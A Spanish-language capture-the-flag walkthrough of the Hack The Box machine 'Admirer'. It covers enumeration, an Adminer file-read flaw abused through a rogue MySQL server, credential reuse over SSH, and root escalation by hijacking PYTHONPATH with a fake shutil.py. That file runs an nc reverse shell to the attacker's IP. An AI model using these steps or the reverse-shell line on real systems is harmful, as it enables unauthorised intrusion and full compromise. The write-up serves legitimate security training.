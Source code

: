 # Admirer WriteUp
Volver al [Indice](README.md)

Comenzamos con la segunda máquina de HTB, en este caso como acaba de ser retirada, les traigo la máquina "Admirer", ha sido creada por "polarbearer & GibParadox", cuenta con una dificultad de 5.3 sobre 10, por lo que se encuentra en el rango de "Medium" y tiene una puntuación de 3.4 sobre 5.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*  
Como normalmente, vamos a lanzar un nmap a los 65535 puertos para enumerar rápidamente los servicios de la máquina.

![nmap1](images/htb/admirer/nmap1.png)

Después vamos a lanzar otro nmap para verificar los servicios y la versión de estos.

![nmap2](images/htb/admirer/nmap2.png)

Vemos que tiene:
* Puerto 21 => un FTP (pero sin acceso anónimo habilitado).
* Puerto 22 => Encontramos el servicio SSH (pero se encuentra en una versión en la que no podemos explotar prácticamente nada, así que no vamos a  buscar ningún exploit).
* Puerto 80 => Con un apache (Al acceder a él solo vemos la página inicial).

Viendo esto, vamos a lanzar la herramienta dirsearch en búsqueda de directorios. Nos encuentra simplemente el directorio **"robots.txt"** de interés.

![dirsearch1](images/htb/admirer/dirsearch.png)

Accedemos al directorio robots y encontramos que existe un directorio llamado "admin-dir" el cual parece basante interesante.

Lo colocamos a ver que contiene y vemos que nos da un error 403(Forbidden).

![robots](images/htb/admirer/robots.png)

Pero... Este error 403 no nos impide lanzar una busqueda con dirsearch a ese directorio...  
Si encontramos algo podríamos acceder a el saltándonos este error.

![dirsearch2](images/htb/admirer/dirsearch2.png)

¡Perfecto!, hemos encontrado 2 directorios con código 200, descargamos los ficheros y encontramos las credenciales para acceder al FTP.

![files](images/htb/admirer/files.png)

Accedemos al FTP y encontramos 2 ficheros (uno contiene un dump de la BD y el otro un archivo comprimido).

![ftp](images/htb/admirer/ftp.png)

En el archivo **"dump.sql"** no encontramos nada pero al descomprimir el otro archivo encontramos varios directorios que parecen un backup de la web.

Entre ellos hay un directorio al que podemos acceder vía web con varios scripts, pero no contienen nada lo suficientemente relevante.

Lanzamos una búsqueda con dirsearch a este directorio y nos encuentra un archivo el cual nos lleva a una aplicación web para conectar con una base de datos. 

Probamos credenciales por defecto y otras que hemos encontrado en alguno de los archivos anteriores descomprimidos pero no tenemos acceso.

![dirsearch3](images/htb/admirer/dirsearch3.png)

![adminer](images/htb/admirer/adminer.png)

Comprobamos en Google si encontramos alguna vulnerabilidad y/o exploit para esta aplicación (Adminer 4.6.2) y **¡BIEN!**, existe una vulnerabilidad para poder acceder a ella sin credenciales.  
Creando una base de datos localmente y accediendo a ella a través de esta aplicación podríamos visualizar el contenido.

Dejo el enlace a la página donde encontré la vulnerabilidad: [https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

## *# Explotación*
Dejo por aquí los pasos que he seguido para crear la base de datos en mi equipo, decir que si vosotros no usáis las mismas versiones o aplicaciones que yo pueden variar:
* CREATE DATABASE admirer;
* CREATE USER 'borb3d'@'%' IDENTIFIED BY 'borb3d';
* GRANT ALL PRIVILEGES ON * . * TO 'borb3d'@'%';
* FLUSH PRIVILEGES;
* use admirer;
* create table test(data VARCHAR(255));
* En el archivo "/etc/mysql/mariadb.conf.d/50-server.cnf" debemos de añadir la línea "bind-address      =0.0.0.0"
* Reiniciamos el servicio (systemctl restart mysql)

![database](images/htb/admirer/DB1.png)
![dbConf](images/htb/admirer/dbConf.png)

Con esto ya podríamos volver a la aplicación web y acceder con nuestros datos.

![dbLogin](images/htb/admirer/dbLog.png)

Y ¡estamos dentro!

![dbOkLog](images/htb/admirer/dbLog.png)

Ya dentro de la aplicación, accedemos al apartado "Comando SQL" para poder ejecutar nuestra consulta y ver datos que no se deberían ver.

En este apartado lanzamos la siguiente consulta:
> load data local infile '../index.php'
> into table test
> fileds terminated by "/n"

![queryOK](images/htb/admirer/queryOk.png)

Después de esto solo tenemos que ir a la pestaña "registros", a la izquierda, para poder visualizar nuestra consulta.

![bdCred](images/htb/admirer/BDcred.png)

Ya tenemos las credenciales, vamos a probar con el servicio SSH por si han reutilizado las contraseñas.

Y parece que **SI**, conseguimos conectarnos al servidor como el usuario "Waldo", cogemos la flag de user y seguimos.

![userFlag](/images/htb/admirer/userFlag.png)

## *# Post-Explotación*
Vamos a ver como podríamos escalar privilegios por aquí.  
Como siempre, vamos a probar con el comando sudo -l para ver que privilegios tenemos como ROOT, y vemos que poseemos este privilegio.  
```(ALL) SETENV: /opt/scripts/admin_tasks.sh```

![sudo -l](images/htb/admirer/sudo-l.png)

Examinamos a fondo ese script y vemos que está todo correcto en cuanto a rutas absolutas a los binarios... Pero vemos que en una de las funciones llama a un archivo python del mismo directorio, así que lo revisamos también.

![scriptAdmin](images/htb/admirer/scriptAdmin.png)

Vemos que el archivo llama a una librería, vamos a intentar falsear la ruta de la libreria con PYTHONPATH.

![shutil.py](images/htb/admirer/shutiPY.png)

Para comenzar, vamos a elegir un directorio en el que tengamos permiso de escritura para realizar nuestro script, "/tmp" por ejemplo.  
* Dentro creamos un archivo llamado shutil.py (que es el nombre del módulo que vamos a falsear).
* En el archivo colocamos el código que queramos ejecutar como ROOT (en mi caso, una Reverse Shell) <Debemos mantener la estructura del archivo original(su función con sus parámetros para que no nos de error)>.  

 ~~~
import os  # importamos la librería que vamos a utilizar

def make_archive(a, b, c):  # Definimos la función que llama el script original (manteniendo las 3 variables para que no haya error)
    os.system("nc 10.10.15.81 4444 -e '/bin/sh'")  # Le mandamos nuestra reverse shell para que la ejecute
~~~

![scriptYexec](/images/htb/admirer/scriptYejc.png)

Abrimos otra consola y la dejamos en escucha por el puerto que colocamos anteriormente (en mi caso 4444).

Lanzamos el comando ```'sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6'``` (para que nos coja la ruta de nuestra librería falsa en lugar de la original y poder falsearlo) y le pasamos el parámetro 6 que sería el que ejecuta el script de python (se puede lanzar directamente o después).

![flagRoot](images/htb/admirer/flagRoot.png)

y...¡Somos ROOT!